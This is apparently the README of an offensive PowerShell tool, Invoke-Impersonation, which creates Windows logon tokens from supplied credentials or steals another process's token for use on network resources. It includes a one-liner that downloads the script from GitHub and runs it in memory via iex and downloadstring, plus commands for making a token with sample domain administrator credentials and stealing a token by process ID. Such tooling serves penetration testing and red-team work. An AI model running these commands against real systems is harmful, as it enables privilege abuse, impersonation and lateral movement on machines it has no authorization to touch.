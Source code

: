 # Invoke-Impersonation
Make a Token (local admin rights not required) or Steal the Token of the specified Process ID (local admin rights required)

### Note:

The logon session created has the same local identifier as the caller. If you run commands that access local resources (like whoami), they will appear to be run under the original user context. 

This is because, locally, nothing has changed. The LUID is the same as the caller, so it appears as though you're still the original user.

However, the alternate credentials are used when accessing a remote resource.

This logon type is designed specifically for cases where you need to specify alternate credentials for outbound network connections, without affecting the local user context. 

This also means that the created token is not applicable to anything you may want to run on the current machine.

Use `Rev2Self` to drop any impersonation that may be in play.

### Load in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-Impersonation/main/Invoke-Impersonation.ps1')
```

### Make a token
```
Invoke-Impersonation -MakeToken -Username "Administrator" -Domain "ferrari.local" -Password "P@ssw0rd!"
```

### Steal a token
```
Invoke-Impersonation -Steal -ProcessID 5380
```

### Rev2Self
```
Invoke-Impersonation -Rev2Self
```

![image](https://github.com/Leo4j/Invoke-Impersonation/assets/61951374/c20851d7-7d19-4e89-a5ad-2ecd45ef3cbf)

![image](https://github.com/Leo4j/Invoke-Impersonation/assets/61951374/c5f0d863-39e0-4441-b381-6586f12b0b68)


